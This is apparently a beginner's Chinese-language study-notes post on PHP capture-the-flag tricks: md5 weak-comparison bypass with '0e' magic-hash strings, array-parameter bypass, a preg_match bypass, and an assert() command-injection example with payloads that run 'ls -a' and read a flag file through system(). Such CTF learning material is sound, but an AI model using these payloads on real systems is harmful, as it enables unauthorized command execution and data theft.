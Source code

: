 ```yaml
---
title: php2
date: 2024-08-12
categories:
  - 学习笔记
tags:
  - 初学者
  - 日记
---
```






##      php代码

#### **1.hash加密相关：**

PHP弱类型hash比较典型代码：

```
if(md5($a) == md5($b)) {    //注意两个等号“==”
    echo $flag;
}
```

漏洞的原理如下：

```
== 在进行比较的时候，会先将两边的变量类型转化成相同的，再进行比较。
0e在比较的时候会将其视作为科学计数法，所以无论0e后面是什么，0的多少次方还是0。
```

以下是一些md5加密后开头为0e的字符串：

```
QNKCDZO
0e830400451993494058024219903391

s878926199a
0e545993274517709034328855841020
  
s155964671a
0e342768416822451524974117254469
  
s214587387a
0e848240448830537924465865611904
  
s214587387a
0e848240448830537924465865611904
  
s878926199a
0e545993274517709034328855841020
  
s1091221200a
0e940624217856561557816327384675
  
s1885207154a
0e509367213418206700842008763514

aabg7XSs
```

另外，这个也可以用数组绕过，这个方法在下面会详细说。

#### **2.数组返回NULL绕过**

```
if(md5($a) === md5($b)) {       //两个等号变成三个，三个===不会进行类型转换
    echo $flag;
}
```

那么利用弱类型hash比较缺陷将无法绕过，这时可以使用数组绕过。

传入`?a[]=1&b[]=2`就可以成功绕过判断。

#### **3.正则表达式相关**

```
<?php
    $p = $_GET['p'];
    if (preg_match('/[0-9a-zA-Z]{2}/',$p) === 1) {
        echo 'False';
    } else {
        $pp = trim(base64_decode($p));
        if ($pp === 'flag.php') {
            echo 'success';
        }
    }
?>
```

单引号绕过preg_match()正则匹配：

在每一个字符前加上单引号可以绕过preg_match的匹配

Bugku ereg正则%00截断：[Bugku web — ereg正则%00截断(代码审计) ——详细题解_%00截断正则匹配-CSDN博客](https://blog.csdn.net/weixin_44953600/article/details/108855995)

#### **4.命令执行漏洞**：

assert()函数引起的命令执行:assert函数的参数为字符串时，会将字符串当做PHP命令来执行

例如：assert(‘phpinfo()’)相当于执行<?php phpinfo() ?>

```
<?php
error_reporting(0);
if (isset($_GET['file'])) {
    if($_GET['file'] === "flag"){
        highlight_file("flag.php");
    }else{
        $page = $_GET['file'];
    }
} else {
    $page = "./flag.php";
}

assert("file_exists('$page')");
?>
```

payload：

 `?file=123’) or system(‘ls -a’);#`
`?file=123’) or system(‘cat .ffll44gg’);#`
